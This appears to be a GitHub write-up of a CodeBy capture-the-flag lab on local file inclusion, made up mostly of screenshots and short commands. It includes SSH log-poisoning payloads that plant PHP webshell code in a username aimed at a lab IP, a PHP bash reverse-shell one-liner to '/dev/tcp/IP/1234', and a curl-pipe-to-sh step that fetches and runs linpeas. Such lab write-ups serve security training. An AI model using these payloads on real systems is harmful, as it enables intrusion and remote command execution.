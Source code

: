 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a7b2dd5a-fb75-4691-a800-9242f265814a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0b142f2a-075f-4e6a-9b78-537719ee7601)

https://book.hacktricks.xyz/pentesting-web/file-inclusion

```
cat dot-slash-PathTraversal_and_LFI_pairing.txt | sed -e "s/.$//" > out.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9de9f00f-146c-49c8-997c-44bacc0508dd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bc2ef9b8-2236-4d56-ba7a-23b609ee2585)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ab24a67-25e2-4444-8220-b349985610f1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/65bd9ced-057c-4e2e-a7e6-e070ebdae6ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/011afb6b-8892-416c-90d9-ab6c89ecac41)
```
ssh '<?php phpinfo(); ?>'@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/13130953-76fa-43cb-88b9-5f2decc00ef2)
```
ssh '<?php system($_GET["c"]); ?>'@62.173.140.174 -p 18222 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b1329e2-6d08-489e-ba41-6602ceecd0f1)
```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14e6cc27-f3a7-4e6d-9378-616bc830e1e5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/489e27fa-de48-4828-b03f-e41a62867677)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb44f435-2de2-4764-b247-ae4c58e92df1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/581dcba0-594e-4ad2-9ac6-0525a235bf41)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d521a65d-c4c8-41ba-98e3-4580def623ea)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/507dc651-902e-4159-b0a6-321e1c2ab139)
```
ssh steve@62.173.140.174 -p 18222
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4afcf2d1-ed79-4424-8bba-c235f718bece)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/55d39d9c-cdf8-49e0-8a34-e670fafedbb8)



